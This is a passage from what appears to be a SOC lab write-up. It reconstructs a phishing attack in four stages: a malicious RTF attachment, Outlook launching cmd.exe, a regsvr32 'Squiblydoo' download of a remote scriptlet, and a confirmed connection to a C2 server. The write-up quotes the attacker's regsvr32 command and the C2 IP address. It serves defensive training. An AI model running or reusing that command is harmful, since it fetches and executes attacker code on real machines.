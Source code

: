 ### 2. Reconstructing the Attack Chain: From Email to C2

The investigation confirmed a clear, four-stage attack chain.

**Stage 1: Delivery via Phishing Email**
The attack began with a socially engineered email sent to `Austin@letsdefend.io`. The email had a subject designed to create urgency ("Important: Action Required...") and contained the malicious attachment, `mail.rtf`. Email security logs show the `Device Action: Allowed`, meaning the email successfully bypassed initial security filters and was delivered to the user's inbox.

<img width="1552" height="487" alt="image" src="https://github.com/user-attachments/assets/34c73a4e-2dfc-48b4-b3a5-45ba5633f810" />

**Stage 2: Successful Exploitation (RCE on Endpoint)**
Endpoint security logs provide the "smoking gun" evidence that the exploit was successful. The `OUTLOOK.EXE` process is seen spawning a `cmd.exe` (command prompt) process. This is highly anomalous behavior and a definitive indicator of compromise; a mail client should never launch a command shell.

<img width="1028" height="413" alt="image" src="https://github.com/user-attachments/assets/6da9a886-f13b-4a72-9190-6c70d4674b94" />

**Stage 3: Post-Exploitation (Downloading the Second Stage)**
The command executed by the exploit is a well-known LOLBin (Living-off-the-Land Binary) technique known as "Squiblydoo".

<img width="649" height="122" alt="image" src="https://github.com/user-attachments/assets/c874fbf5-87d0-491f-a325-0658f83867ba" />

*   **Command:** `regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll`
*   **Explanation:** The attacker uses `regsvr32.exe`, a legitimate Windows utility, to download and execute a remote scriptlet file (`shell.sct`) from their C2 server. This is a fileless technique that avoids dropping a traditional executable on disk, helping to evade antivirus detection.

**Stage 4: Confirmation of C2 Communication**
Network logs confirm that the previous stage worked. The `cmd.exe` process successfully made a GET request to the C2 URL, and the connection was `Permitted`. This confirms the second-stage payload was successfully downloaded to the victim machine.

<img width="637" height="295" alt="image" src="https://github.com/user-attachments/assets/b73d34af-65f2-4229-bf50-fc7d618ad840" />

### 3. Threat Intelligence

Both the attachment hash and the C2 server's IP address (`84.38.130.118`) are confirmed as malicious by VirusTotal, reinforcing the hostile intent of the activity.

<img width="1777" height="877" alt="image" src="https://github.com/user-attachments/assets/6f47927f-d96d-43f3-802a-551865a3ca7d" />
<img width="1790" height="765" alt="image" src="https://github.com/user-attachments/assets/c88a3c3e-f1d2-4fc8-ac19-05c5d1cd8ea2" />

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR, Email Security Gateway, Network Logs, VirusTotal
*   **Skills Demonstrated:** Zero-Day Exploit Analysis (CVE-2025-21298), LOLBin Technique Recognition (Squiblydoo), Phishing Analysis, Attack Chain Reconstruction.

## Playbook Solution: Incident Classification
